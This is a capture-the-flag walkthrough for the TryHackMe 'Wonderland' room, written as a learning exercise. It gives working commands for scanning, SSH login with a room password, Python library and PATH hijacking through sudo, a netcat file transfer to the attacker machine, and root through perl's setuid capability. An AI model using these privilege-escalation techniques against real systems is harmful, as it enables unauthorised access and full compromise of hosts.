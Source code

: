 # Wonderland

**Room Link:** [https://tryhackme.com/room/wonderland](https://tryhackme.com/room/wonderland)

## Initial Scan

**Kali**

<pre><code><strong>nmap -A $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (10) (11).png" alt=""><figcaption></figcaption></figure>

## Scan all ports

**Kali**

<pre><code><strong>nmap -sV -sT -O -p 1-65535 $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (1) (16).png" alt=""><figcaption></figcaption></figure>

## TCP/80 - HTTP

**Kali**

```
gobuster dir -u http://$VICTIM -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```

<figure><img src="../../.gitbook/assets/image (3) (17).png" alt=""><figcaption></figcaption></figure>

I can see I'm on the right track on the browser

<figure><img src="../../.gitbook/assets/image (5) (13).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
gobuster dir -u http://$VICTIM/r/ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```

<figure><img src="../../.gitbook/assets/image (4) (12).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
gobuster dir -u http://$VICTIM/r/a -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```



After a few letters I was able to just guess the word it's spelling out

<figure><img src="../../.gitbook/assets/image (2) (12).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (6) (12).png" alt=""><figcaption></figcaption></figure>

## TCP/22 - SSH

**Kali**

```
ssh alice@$VICTIM
Pass: HowDothTheLittleCrocodileImproveHisShiningTail
```

<figure><img src="../../.gitbook/assets/image (7) (12).png" alt=""><figcaption></figcaption></figure>

## Lateral Movement - Abusing Library path

**Victim**

```
sudo -l
cat /home/alice/walrus_and_the_carpenter.py
```

<figure><img src="../../.gitbook/assets/image (9) (12).png" alt=""><figcaption></figcaption></figure>

Using the first command we can see the path it follows, we can see the first thing it will try is the current directory so we can make a random.py script of our own and put anything we want in it.

**Victim**

```
python3 -c 'import sys; print (sys.path)'
locate random.py
```

<figure><img src="../../.gitbook/assets/image (10) (11) (1).png" alt=""><figcaption></figcaption></figure>

**Victim**

```
echo 'import os' > random.py
echo 'os.system("/bin/bash")' >> random.py
cat random.py
```

<figure><img src="../../.gitbook/assets/image (12) (11).png" alt=""><figcaption></figcaption></figure>

**Victim**

```
sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
```

<figure><img src="../../.gitbook/assets/image (11) (14).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (13) (11).png" alt=""><figcaption></figcaption></figure>

## Lateral Movement - Abusing Paths

**Kali(receiving)**

```
nc -l -p 1234 > teaParty
```

**Victim(sending)**

```
nc -w 3 $KALI 1234 < teaParty
```

### Ghidra

I opened the file in Ghidra and can see that the program is running the date command which we see outputted when we run the script. But note that the date command isn't using the full path so if we add somewhere else in our path we can run our own date command instead.

<figure><img src="../../.gitbook/assets/image (14) (12).png" alt=""><figcaption></figcaption></figure>

I added tmp to my path

**Victim(rabbit)**

```
echo $PATH
export PATH=/tmp:$PATH
echo $PATH
```

<figure><img src="../../.gitbook/assets/image (15) (10).png" alt=""><figcaption></figcaption></figure>

I'm not the hatter

**Victim(rabbit)**

```
cd /tmp
echo '#!/bin/bash' > date
echo '/bin/bash' >> date
chmod +x date
cat date
/home/rabbit/teaParty 
```

<figure><img src="../../.gitbook/assets/image (16) (8).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation&#x20;

**Victim(hatter)**

We can just follow what's under capabilities but only the last command as CAP\_SETID is already set for perl.

**Exploit:** [https://gtfobins.github.io/gtfobins/perl/](https://gtfobins.github.io/gtfobins/perl/)

```
getcap -r / 2>/dev/null
perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
```

<figure><img src="../../.gitbook/assets/image (17) (7).png" alt=""><figcaption></figcaption></figure>















